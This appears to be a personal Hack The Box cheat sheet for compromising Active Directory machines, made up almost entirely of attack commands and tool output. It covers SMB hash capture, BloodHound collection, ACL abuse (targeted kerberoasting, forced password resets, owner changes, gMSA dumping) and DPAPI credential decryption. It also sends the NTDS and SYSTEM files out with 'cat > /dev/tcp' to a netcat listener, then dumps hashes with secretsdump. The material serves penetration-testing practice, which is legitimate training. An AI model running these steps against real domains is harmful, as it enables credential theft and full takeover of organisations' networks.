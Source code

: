 I made this to work 10x faster on  [Active Directory](../../3%20-%20Tags/Hacking%20Concepts/Active%20Directory.md) boxes.
## Interesting ports from scan

```bash
53: DNS Most of the time not the way in, maybe enum   
88: Kerberos - Maybe Kerbrute but not much to go into
135/139/445: 'SMB'  Always interesting !!
3389: RDP  Always stands out, worth checking
```

Add domain name from nmap to `/etc/hosts`
## Ticket Requests

If gives you password but don't work:
```bash
└─$ impacket-getTGT machine.htb/'user,name':'passwd'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in user.name.ccache

$ export KRB5CCNAME=/home/mdn0x/HTB/Machines/Machine/user/tickets/user.name.ccache   # IMPORTANT

$ nxc ldap machine.htb -u user.name -p passwd -k
LDAP        machine.htb      389    DC               [*] None (name:DC) (domain:machine.htb)
LDAP        machine.htb      389    DC               [+] machine.htb\user.name:passwd  
```

Now collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md).
## SMB (135,139,445) Enumeration

Can i find creds, write, steal with links?

Anonymous access? `netexec` or [SMBclient](../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) or [SMBmap](../../3%20-%20Tags/Hacking%20Tools/SMBmap.md) 

```bash
smbclient -L \\\\domain.name\\

smbclient -L \\\\domain.name\\ -U user # If you have creds
```

OR
```bash
nxc smb dc.domain.htb -u user.name -p 'passwd' -k --shares --smb-timeout 500   # -k is for ticket usage

impacket-smbclient -k dc.machine.htb # To connect usage: shares, use share, ls, cd, get  
```

if list the shares then yes. Can connect?

```bash
smbclient \\\\domain.name\\Share # -U user -p passwd
```

If can write steal creds with `responder`

To steal use https://github.com/overgrowncarrot1/SMBKiller

```bash
python3 SMB_Killer.py -r Victim_IP -l MY_IP -d domain.name -i tun0 -a Share -U 'blankforanon' -p passwd?    
```

The tool starts an automatic responder instance to capture the hashes.

Crack with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) or [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md)

Verify user:

```bash
nxc smb domain.name -u 'user.name' -p 'passwd' --shares
```

## Bloodhound

Collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md):

```bash
 bloodhound-python -u 'user' -p 'passwd' -d domain.htb -ns 10.10.11.xx -c All --zip # -p or --hashes
```

Collect with `nxc`:

```bash
nxc ldap dc.machine.htb -u 'user.name' -p 'passwd' --bloodhound --collection All --dns-server IP
```

Checks
```bash
'OUTBOUND OBJECT CONTROL'
'GROUPS' # like RemoteManager (WinRM)
```

Stands out
```bash
GenericAll: changepasswd and ownaccount # You can do everything with GA - BloodyAD
WriteSPN: can create a fake `SPN` of `user2` and get and hash to crack ## TargetedKerberoast tool
AddSelf: Add user to group # BloodyAD tool
ReadGMSAPassword: Reads any gMSA password blobs the user can access # GMSADumper tool
ForceChangePassword: modify directly # BloodyAD
WriteOwner: Change password # Impacket-owneredit then BloodyAD
```

## Evil-WinRM

```bash
evil-winrm -u 'user.name' -p 'passwd' -i dc.machine.htb # -H for hashes

evil-winrm -i dc.domain.htb -k userticket.ccache -r REALM.htb  # with ticket auth, add REALM in krb5 config if needed
```

## TargetedKerberoast


**WriteSPN**
```bash
┌──(.venv)─(mdn0x㉿mdn0xKali)
└─$ python3 targetedKerberoast.py -v -d domain.htb -u user -p 'passwd'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (user2)
[+] Printing hash for (user2)
$krb5tgs$23$*user2$DOMAIN.HTB$machine.htb/User2*$0e83983aba480c3219b96987f20b128e$f66d93f0d55de1da3610267d601fe46a3eed827e3348ff764eca454ff3067429352018f988e71b0bca4636df36765f69664d77acdd4080b34d70ead2abbd2f52bb82054cd69f7f75475ee9beb93b06d036d6b24c8ace08ce04aac9cba49a6b8311fa66eb35ed80222cd23fc328ba489d2d9e83c47f9d0d1982b<SNIP>
[VERBOSE] SPN removed successfully for (user)
```

## BloodyAD

**AddSelf**
```bash
┌──(mdn0x㉿mdn0xKali)
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u user -p 'passwd' add groupMember GROUP user
[+] user added to GROUP
```


**ForceChangePassword - GenericAll**
```bash
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u 'user' -p 'passwd' set password USER2 'Hacker123!' # hash with -p also
[+] Password changed successfully!
```

OR
```bash
net rpc "name" "passwd" -U "machine.htb"/"user2.name"%"password" -S 'IP'
```
## GMSADumper

**ReadGMSAPasswords**
```bash
└─$ python gMSADumper.py -u user -p passwd -d domain.htb 
```

This give you an usable hash like this`:4f46405647993c7d4e1dc1c25dd6ecf4` 
## Write Owner

First we use `impacket-owneredit` to make `USER` owner of `USER2`:

```bash
└─$ impacket-owneredit -action write -target 'user2' -new-owner 'user' 'machine.htb/user':'Hacker123!' -dc-ip 10.10.11.xx
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=DCname,DC=htb
[*] OwnerSid modified successfully!
```

Now we can change his password with `bloodyAD`. First add `GenericAll`:

```bash
─$ bloodyAD --host 10.10.11.xx -d machine.htb -u 'user' -p 'Hacker123!' add genericAll user2 user
[+] user has now GenericAll on user2
```

Now change password.

## DPAPI

If you can find `dpapi` encrypted data and keys:

``` bash
- get /../../../AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88

- get /../../../AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3
```
### Cracking

1. crack the key:
```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password Password
```

2. Crack creds
```bash
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key keyfrommasterkey
```

OR crack the hash
```
impacket-secretsdump -sam SAM -system SYSTEM local
```
## Secrets Dump 

If you can find the `SYSTEM` and `NTDS` files grab them, possibly with a listener:

```bash
$ nc -lvnp 4444 > SYSTEM

cat SYSTEM  > /dev/tcp/10.10.xx.xx/4444 # on Target

$ nc -lvnp 4444 > ntds.dit

cat ntds.dit > /dev/tcp/10.10.xx.xx/4444 # on Target
```
### Cracking

Use `Impacket` function to crack the hashes:

```bash
$ impacket-secretsdump -ntds ntds.dit -system SYSTEM local 
```

Request a ticket then use [Evil-WinRM](../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) with `-k` flag.